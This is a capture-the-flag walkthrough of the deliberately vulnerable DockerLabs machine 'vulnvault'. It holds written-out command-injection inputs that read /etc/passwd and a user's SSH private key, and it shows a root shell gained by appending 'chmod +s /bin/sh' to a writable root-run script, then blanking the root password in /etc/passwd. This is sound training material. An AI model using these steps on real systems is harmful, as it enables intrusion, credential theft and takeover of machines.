





# vulnvault

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| vulnvault | d1se0 | easy | dockerlabs |

**Summary:** This assessment began with service discovery that exposed SSH and an Apache web application presenting itself as a report generator. Directory enumeration revealed an upload interface and a legacy path, which initially suggested file upload abuse but ultimately led to a deeper logic flaw. Input passed to backend processing was vulnerable to command injection, allowing direct operating system command execution from the web context. That execution path was used to enumerate local accounts and recover `samara` private key material from `/home/samara/.ssh/id_rsa`, enabling SSH access as a valid user. Post compromise host inspection exposed a root controlled loop repeatedly executing `/usr/local/bin/echo.sh`, with world writable permissions that allowed command insertion. By appending a permission change on `/bin/sh`, the shell binary inherited SUID behavior through `dash`, providing effective root execution with `sh -p`, followed by direct root account access and recovery of the final flag.

---

## Recon

1. The target machine was deployed and its Docker assigned address was confirmed as `172.17.0.2`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[~/dockerlabs/vulnvault]
└─$ sudo bash auto_deploy.sh vulnvault.tar

                            ##        .
                      ## ## ##       ==
                   ## ## ## ##      ===
               /""""""""""""""""\___/ ===
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/
                 \    \        __/
                  \____\______/

  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]


Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

2. A full TCP scan with default scripts and version detection identified two accessible services, `22/tcp` and `80/tcp`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnvault]
└─$ ip=172.17.0.2 && url=http://$ip

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnvault]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-24 19:51 WIB
Nmap scan report for 172.17.0.2
Host is up (0.0000090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 f5:4f:86:a5:d6:14:16:67:8a:8e:b6:b6:4a:1d:e7:1f (ECDSA)
|_  256 e6:86:46:85:03:d2:99:70:99:aa:70:53:40:5d:90:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Generador de Reportes - Centro de Operaciones
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.44 seconds
```

3. Web content inspection on port 80 confirmed a report generation interface.



4. Directory enumeration discovered `upload.php`, `upload.html`, and `/old/`, which expanded the application attack surface.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnvault]
└─$ gobuster dir -u $url -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 2832]
/upload.php           (Status: 200) [Size: 33]
/upload.html          (Status: 200) [Size: 2314]
/old                  (Status: 301) [Size: 306] [--> http://172.17.0.2/old/]
/server-status        (Status: 403) [Size: 275]
Progress: 882228 / 882228 (100.00%)
===============================================================
Finished
===============================================================
```

5. The upload page was reviewed as a candidate entry point for server side execution.



## Initial Access

1. Attempted upload abuse shifted into command injection discovery when backend processing accepted shell metacharacters in report input.



2. Command injection was validated using `test ; cat /etc/passwd`, which exposed local users and confirmed direct command execution.



3. The same vector was used to extract SSH private key material from the user home directory with `test ; cat /home/samara/.ssh/id_rsa`.



4. The recovered key was stored locally with strict file permissions, then used for SSH authentication as `samara`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnvault]
└─$ vim id_rsa

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnvault]
└─$ chmod 600 id_rsa
```

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnvault]
└─$ ssh -i id_rsa samara@$ip
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is: SHA256:50SBUCdnSFCj03op6yJ3vYTdgMcXC07aE2LSeOkKaO8
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.87.2-microsoft-standard-WSL2 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Aug 20 19:54:15 2024 from 172.17.0.1
samara@ef3c4b7aa1b8:~$ id;whoami
uid=1001(samara) gid=1001(samara) groups=1001(samara),100(users)
samara
```

5. User context validation and local artifact review produced the first flag and operational hints from shell history.

```bash
samara@ef3c4b7aa1b8:~$ ls -la
total 48
drwxr-xr-x 1 samara samara 4096 Mar 24 13:51 .
drwxr-xr-x 1 root   root   4096 Aug 20  2024 ..
-rw------- 1 samara samara  218 Aug 20  2024 .bash_history
-rw-r--r-- 1 samara samara  220 Aug 20  2024 .bash_logout
-rw-r--r-- 1 samara samara 3771 Aug 20  2024 .bashrc
drwx------ 2 samara samara 4096 Aug 20  2024 .cache
drwxrwxr-x 3 samara samara 4096 Aug 20  2024 .local
-rw-r--r-- 1 samara samara  807 Aug 20  2024 .profile
drwxr-xr-x 2 samara samara 4096 Aug 20  2024 .ssh
-rw-r--r-- 1 root   root     35 Mar 24 14:50 message.txt
-rw------- 1 samara samara   33 Aug 20  2024 user.txt
samara@ef3c4b7aa1b8:~$ cat message.txt
No tienes permitido estar aqui :(.
samara@ef3c4b7aa1b8:~$ cat .bash_history
ls -al
nano echo.sh
exit
ls -la
nano echo.sh
exit
nano echo.sh
ls -la
cat echo.sh
exit
ssh-keygen -t rsa -b 4096
ls -la
chmod +x .ssh/
ls -al
chmod +r .ssh/
ls -la
cd .ssh/
ls -la
chmod +r id_rsa
ls -al
cd ..
exit
samara@ef3c4b7aa1b8:~$ cat user.txt
030208509edea7480a10b84baca3df3e
```

## PrivEsc

1. Process enumeration revealed a root owned infinite loop executing `/usr/local/bin/echo.sh` from PID 1 context.

```bash
samara@ef3c4b7aa1b8:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  8.3  0.0   2800  1792 ?        Ds   13:51   5:20 /bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done
root          15  0.0  0.1  12020  3980 ?        Ss   13:51   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root          33  0.0  0.5 203452 19908 ?        Ss   13:51   0:00 /usr/sbin/apache2 -k start
www-data   88913  0.3  0.4 204128 15928 ?        S    13:54   0:12 /usr/sbin/apache2 -k start
www-data  357902  0.1  0.4 204120 15928 ?        S    14:06   0:04 /usr/sbin/apache2 -k start
www-data  357988  0.1  0.4 204120 15800 ?        S    14:06   0:03 /usr/sbin/apache2 -k start
www-data  357992  0.1  0.4 204120 15672 ?        S    14:06   0:03 /usr/sbin/apache2 -k start
www-data  357995  0.1  0.4 203996 15800 ?        S    14:06   0:04 /usr/sbin/apache2 -k start
www-data  358094  0.1  0.4 203996 15800 ?        S    14:06   0:03 /usr/sbin/apache2 -k start
www-data  358230  0.1  0.4 204120 15800 ?        S    14:06   0:03 /usr/sbin/apache2 -k start
www-data  358244  0.1  0.4 203996 15928 ?        S    14:06   0:03 /usr/sbin/apache2 -k start
www-data  358262  0.1  0.4 204012 16056 ?        S    14:06   0:03 /usr/sbin/apache2 -k start
www-data  360996  0.0  0.4 204120 15928 ?        S    14:06   0:02 /usr/sbin/apache2 -k start
root     1505615  0.0  0.2  14532  8208 ?        Ss   14:48   0:00 sshd: samara [priv]
samara   1506330  0.3  0.1  14792  6580 ?        S    14:48   0:01 sshd: samara@pts/0
samara   1506361  0.0  0.1   5016  4096 pts/0    Ss   14:48   0:00 -bash
samara   1687093  0.0  0.1   8280  4096 pts/0    R+   14:54   0:00 ps aux
root     1687095  0.0  0.0   4324  3200 ?        R    14:54   0:00 [bash]
```

2. File permission review confirmed the script was writable by non privileged users, creating a direct root execution sink.

```bash
samara@ef3c4b7aa1b8:~$ ls -la /usr/local/bin/echo.sh
-rwxrw-rw- 1 root root 82 Aug 20  2024 /usr/local/bin/echo.sh
```

3. A privileged shell path was established by appending `chmod +s /bin/sh` to the writable root executed script, then invoking `sh -p` after SUID propagation.

```bash
samara@ef3c4b7aa1b8:~$ ls -la /bin/sh
lrwxrwxrwx 1 root root 4 Mar 31  2024 /bin/sh -> dash
samara@ef3c4b7aa1b8:~$ echo "chmod +s /bin/sh" >> /usr/local/bin/echo.sh
samara@ef3c4b7aa1b8:~$ ls -la /bin/sh
lrwxrwxrwx 1 root root 4 Mar 31  2024 /bin/sh -> dash
samara@ef3c4b7aa1b8:~$ ls -la /bin/dash
-rwsr-sr-x 1 root root 129784 Mar 31  2024 /bin/dash
samara@ef3c4b7aa1b8:~$ /bin/sh -p
# id;whoami;hostname
uid=1001(samara) gid=1001(samara) euid=0(root) egid=0(root) groups=0(root),100(users),1001(samara)
root
ef3c4b7aa1b8
# sed -i 's/^root:x:/root::/' /etc/passwd
# su - root
root@ef3c4b7aa1b8:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
ef3c4b7aa1b8
```

4. Root context confirmation and final flag retrieval completed full compromise.

```bash
root@ef3c4b7aa1b8:~# ls -la
total 32
drwx------ 1 root root 4096 Mar 24 14:59 .
drwxr-xr-x 1 root root 4096 Mar 24 13:51 ..
-rw------- 1 root root   24 Mar 24 14:59 .bash_history
-rw-r--r-- 1 root root 3106 Apr 22  2024 .bashrc
drwxr-xr-x 3 root root 4096 Aug 20  2024 .local
-rw-r--r-- 1 root root  161 Apr 22  2024 .profile
drwx------ 2 root root 4096 Aug 20  2024 .ssh
-rw-r--r-- 1 root root   33 Aug 20  2024 root.txt
root@ef3c4b7aa1b8:~# cat root.txt
640c89bbfa2f70a4038fd570c65d6dcc
```

---

## Attack Chain Summary
1. **Reconnaissance**: Network and service discovery identified SSH and a Spanish language Apache application exposing report generation functionality.
2. **Vulnerability Discovery**: Directory brute forcing revealed upload and legacy routes, then input handling flaws confirmed command injection in backend processing.
3. **Exploitation**: Arbitrary commands were executed to read sensitive files, enumerate users, and exfiltrate `samara` SSH private key material.
4. **Internal Enumeration**: Authenticated shell access as `samara` exposed process behavior and writable script permissions tied to a root owned execution loop.
5. **Privilege Escalation**: Command injection into the writable root executed script enabled SUID modification of `dash`, root shell spawn via `sh -p`, and final root flag capture.

